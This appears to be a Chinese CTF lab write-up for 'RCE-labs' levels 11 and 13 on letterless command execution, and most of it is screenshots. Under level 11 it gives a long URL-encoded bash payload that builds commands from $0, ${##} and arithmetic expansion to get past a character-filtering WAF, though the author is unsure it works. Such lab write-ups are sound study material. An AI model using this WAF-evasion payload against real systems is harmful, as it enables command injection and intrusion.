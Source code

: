 ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741360934423-4324d1ac-e8be-49d5-96b9-d0d5a36743f2.png)

url编码一下

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741360955905-c1f35c9e-83a9-49d3-b582-4ad96a722a0d.png)

## [RCE-labs]Level 11 - 无字母命令执行_整数1的特殊变量替换
不是这道题有bug?传123不报WAF?看writeup也不行

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741448949940-a9815dca-0c53-4fdd-9455-d51bec500d5a.png)

上一题还正常

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741448921384-437919df-d9ef-4dec-b78f-0f48c213bf00.png)![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741448913779-8e6da91a-ba4b-4b59-81c0-6d2e0da914ba.png)

算了给出playload吧,不知道对不对.

毕竟没有对**<font style="color:rgb(51, 51, 51);"> # $ ' ( ) 0 < \ { } </font>**<font style="color:rgb(51, 51, 51);">几项WAF,在题目给的渠道生成playload:</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741449489113-e234230f-bbd7-4a4b-acc5-0bb1d2131408.png)

url编码:

```python
%240%3C%3C%3C%240%5C%3C%5C%3C%5C%3C%5C%24%5C'%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D000%24%7B%23%23%7D%24%7B%23%23%7D%24%7B%23%23%7D%24%7B%23%23%7D))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D000%24%7B%23%23%7D%24%7B%23%23%7D0%24%7B%23%23%7D))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D0%24%7B%23%23%7D00%24%7B%23%23%7D00))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D0%24%7B%23%23%7D000))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D%24%7B%23%23%7D%24%7B%23%23%7D00%24%7B%23%23%7D))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D00%24%7B%23%23%7D00%24%7B%23%23%7D0))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D00%24%7B%23%23%7D%24%7B%23%23%7D0%24%7B%23%23%7D0))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D000%24%7B%23%23%7D%24%7B%23%23%7D0%24%7B%23%23%7D))%5C%5C%24((%24((%24%7B%23%23%7D%3C%3C%24%7B%23%23%7D))%23%24%7B%23%23%7D00%24%7B%23%23%7D00%24%7B%23%23%7D%24%7B%23%23%7D))%5C'
```

## <font style="color:rgb(0, 0, 0);">[RCE-labs]Level 13 - 无字母命令执行_特殊扩展替换任意数字</font>
![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741449804609-f0d8a68c-4dae-41c3-9578-60f73e7b9bc3.png)

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741449819852-e0da65d5-0895-4593-a119-391348b46663.png)

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741449813675-88adc40d-bd11-4cc4-8bf2-9c81e0ddfd89.png)

~~脚本真好用,学废了~~

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741450113853-b5a5b902-cae6-4666-b0c0-111b217eb5c8.png)

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1741449778425-fe87c76b-886d-4c3a-9852-d89bffdd1b24.png)

